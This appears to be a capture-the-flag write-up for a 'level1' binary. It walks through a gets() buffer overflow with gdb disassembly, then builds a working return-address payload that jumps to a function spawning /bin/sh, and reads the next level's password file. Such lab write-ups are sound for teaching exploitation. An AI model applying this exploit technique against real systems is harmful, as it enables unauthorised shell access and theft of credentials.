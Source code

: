 As seen in the disassembled code, the program uses the gets() function to take user input :

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:    push   %ebp
   0x08048481 <+1>:    mov    %esp,%ebp
   0x08048483 <+3>:    and    $0xfffffff0,%esp
   0x08048486 <+6>:    sub    $0x50,%esp
   0x08048489 <+9>:    lea    0x10(%esp),%eax
   0x0804848d <+13>:   mov    %eax,(%esp)
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   0x08048495 <+21>:   leave  
   0x08048496 <+22>:   ret    
End of assembler dump.
```

By examining the man page for the gets() function, it can see that this function is deprecated and poses some significant security vulnerability:
```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.
```

We ttry to do a buffer overflow by inputting a string exceeding 100 characters:

```
$ ./level1
testtesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttesttest
Segmentation fault (core dumped)
```

This confirmed the presence of a buffer overflow. Next, we determined the buffer size using gdb:
```
$ gdb ./level1
(gdb) disass main
```
We found that the buffer size is 0x50, or 80 bytes.

We then examined all functions in the program with `info functions` and identified a `run` function that calls the `system` function:
```
(gdb) info functions
0x080482f8  _init
[...]
0x08048444  run
0x08048480  main
[...]

(gdb) disass run
0x08048444 <+0>:	push   %ebp
0x08048445 <+1>:	mov    %esp,%ebp
[...]
0x08048472 <+46>:	movl   $0x8048584,(%esp)
0x08048479 <+53>:	call   0x8048360 <system@plt>
[...]

(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```
To exploit the program, we generated a string of 76 characters followed by the address of the `run` function (0x08048444) in little-endian format (\x44\x84\x04\x08):
```
$ python -c "print('-' * 76 + '\x44\x84\x04\x08')" > /tmp/test
$ cat /tmp/test - | ./level1
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```